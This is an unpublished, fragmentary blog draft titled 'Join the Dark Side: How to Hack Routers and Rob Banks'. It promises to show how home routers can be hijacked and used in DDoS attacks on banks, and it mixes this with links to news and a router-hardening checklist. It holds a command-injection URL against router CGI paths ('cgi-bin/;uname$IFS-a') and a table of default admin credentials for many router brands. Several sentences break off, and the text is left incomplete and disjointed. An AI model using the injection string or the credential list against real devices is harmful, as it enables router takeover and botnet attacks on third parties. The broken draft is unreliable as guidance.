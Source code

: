 ```yaml
---
title: "Join the Dark Side: How to Hack Routers and Rob Banks"
description: "“You don’t know the power of the Dark Side.” — Darth Vader"
date: "2019-06-11T18:38:11.830Z"
categories: []
published: false
---
```


![This evil server room would feel right at home aboard the Death Star.](./asset-1.jpeg)

> “You don’t know the power of the Dark Side.” — Darth Vader

Today, I’m going to show you the power of the dark side. I’m going to show you how to take a helpful household appliance — the humble wifi router — and corrupt it for your own evil ends. 

I’m going to show you how to rob a bank with it.

Actually, we’ll need need more than one of these. We’ll need millions of them. But don’t worry — we can get them. I’ll show you how.

  

(Sure, the banks have insurance for these kinds of things, but hey, at least we’re making their collective insurance premiums go up. Which makes their costs go up. Which they pass on to us in the form of higher fees. D’oh.)

  

  

Last weekend, 

You can play along at home, though I would recommend stopping short of actually launching the attack.

  

  

  

  

  

  

Hackers used these hacked home routers to launch massive distributed denial of service (DDOS) attacks on Russian banks. 

  

### Harden your router against attacks

  

If you want to really batten down the hatches, Lucian Constantin has compiled a [comprehensive checklist](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html) of security measures you should apply for your router. 

  

  

  



  

  

  

  

  

Step 1: visit this URL: [http://192.168.1.1/cgi-bin/;uname$IFS-a](http://192.168.1.1/cgi-bin/;uname$IFS-a) or [http://192.168.0.1/cgi-bin/;uname$IFS-a](http://192.168.1.1/cgi-bin/;uname$IFS-a)

Here’s a list of 

```
+-------------+----------------------+-----------+--------------+
| Modem Brand |       Login IP       |  Username |   Password   |
+-------------+----------------------+-----------+--------------+
| 3Com        | http://192.168.1.1   | admin     | admin        |
| Belkin      | http://192.168.2.1   |           |              |
| BenQ        | http://192.168.1.1   | admin     | admin        |
| D-Link      | http://192.168.0.1   | admin     |              |
| Digicom     | http://192.168.1.254 | admin     |              |
| Digicom     | http://192.168.1.254 | admin     | password     |
| Digicom     | http://192.168.1.254 | admin     | michelangelo |
| Linksys     | http://192.168.1.1   | admin     | admin        |
| Netgear     | http://192.168.0.1   | admin     | password     |
| Sitecom     | http://192.168.0.1   | admin     | admin        |
| Sitecom     | http://192.168.0.1   | sitecom   | admin        |
| Thomson     | http://192.168.1.254 | user      | user         |
| US Robotics | http://192.168.1.1   | admin     | admin        |
+-------------+----------------------+-----------+--------------+
```![](./asset-2.jpeg)

  

  

  

  

[**Russia claims it foiled a cyber attack from a foreign spy service**  
_The Russian government claims to have foiled a "large-scale" cyber attack from foreign intelligence services meant to…_www.csoonline.com](http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html "http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html")[](http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html)

[**How to secure your router and home network**  
_Many computer users don't realize it, but for most people their internet router is the most important electronic device…_www.csoonline.com](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html "http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html")[](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html)

[**An unpatched vulnerability exposes Netgear routers to hacking**  
_Several models of Netgear routers are affected by a publicly disclosed vulnerability that could allow hackers to take…_www.pcworld.com](http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html "http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html")[](http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html)
